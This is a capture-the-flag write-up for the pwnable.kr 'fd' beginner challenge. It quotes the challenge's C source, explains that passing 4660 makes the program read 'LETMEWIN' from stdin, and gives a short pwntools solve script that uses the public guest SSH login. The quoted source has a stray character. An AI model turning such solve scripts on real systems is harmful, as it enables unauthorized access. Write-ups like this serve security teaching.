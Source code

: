 ## Description
fd - 1 pt [writeup]

> Mommy! what is a file descriptor in Linux?
>
> \* try to play the wargame your self but if you are ABSOLUTE > beginner, follow this tutorial link:
> https://youtu.be/971eZhMHQQw
>
> ssh fd@pwnable.kr -p2222 (pw:guest)

## Solution
We are given a binary file `fd`, and it's source code `fd.c`. Let's take a look at the source code:
### fd.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;
f
}
```
We can see that the program is reading from a file descriptor, which is passed as the first argument to the program.\
The program then subtracts `0x1234` from the file descriptor and reads 32 bytes from that file descriptor.\
If the string "LETMEWIN\n" is read, the program prints the flag by calling `/bin/cat flag`.

As you might already know, `stdin` is file descriptor `0`, so if we pass `0x1234` as the first argument to the program, it will read from `stdin`.\
Then we can just pass the string "LETMEWIN\n" to the program and it will print the flag.\
Notice that `0x1234` in hex is `4660` in decimal.

That's basically it, here's the exploit code:
```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'debug'
context.arch = 'i386'
# context.binary = './fd'

shell=ssh('fd','pwnable.kr',password='guest',port=2222)
p = shell.process(['fd', '4660'])

p.sendline(b"LETMEWIN")
p.interactive()
```

## Setup
```shell
mkdir fd && scp -P2222 fd@pwnable.kr:* ./fd # Download the files from the server
```
